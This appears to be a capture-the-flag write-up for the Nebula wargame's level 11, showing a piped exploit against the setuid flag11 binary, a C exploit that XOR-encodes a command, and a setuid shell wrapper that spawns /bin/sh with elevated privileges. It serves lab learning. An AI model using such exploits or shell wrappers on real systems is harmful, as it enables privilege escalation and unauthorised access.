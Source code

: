 Before trying to exploit it, lets define a new **TEMP** environment variable that the program will look for creating the random file:

```lang-bash line-numbers 
export TEMP=/tmp
```

Its time to exploit the **flag11** program:

```lang-bash line-numbers 
level11@nebula:~$ python exploit.py | /home/flag11/flag11
blue = 1024, length = 1024, pink = 1024
You have successfully executed getflag on a target account
```

A **c** version:

```lang-clike line-numbers 
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void process(char *buffer, int length) {
  unsigned int key;
  int i;

  key = length & 0xff;
  for(i = 0; i < length; i++) {
    buffer[i] ^= key;
    key -= buffer[i] ^ key;
  }
}

#define COMMAND "getflag"

int main(int argc, char *argv[]) {
  char buffer[1024];

  strncpy(buffer, COMMAND, 1024);
  process(buffer, 1024);
  puts("Content-Length: 1024");
  fwrite(buffer, 1, 1024, stdout);
  return 0;
}
```

If we want to get a shell we can use the following setuid shell wrapper:

```lang-clike line-numbers 
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void main(int argc, char *argv[]) {

  uid_t euid = geteuid();
  setresuid(euid, euid, euid);
  system("/bin/sh");
}
```
